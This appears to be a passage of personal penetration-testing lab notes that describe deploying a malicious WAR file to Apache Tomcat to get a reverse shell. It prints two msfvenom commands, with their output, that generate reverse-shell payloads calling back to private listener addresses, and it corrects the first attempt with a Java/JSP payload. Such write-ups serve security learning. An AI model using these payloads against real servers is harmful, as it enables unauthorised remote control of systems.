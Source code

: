 ![Pasted image 20210423112937.png](Pasted%20image%2020210423112937.png)

## WAR upload
- Try to make a malicious WAR which can be deploy in tomcat to get reverse shell
```bash
msfvenom -p linux/x64/shell_reverse_tcp lhost=192.168.59.60 lport=9001 -f war -o pwn.war
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of war file: 1550 bytes
Saved as: pwn.war
```
- But after select the file and click deploy, I've got permission denied
![Pasted image 20210423120353.png](Pasted%20image%2020210423120353.png)
- Alright the reason is that tomcat use java, and I did not use the java/jsp to generate WAR
```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.110.100 lport=9001 -f war -o pwn.war
Payload size: 1102 bytes
Final size of war file: 1102 bytes
```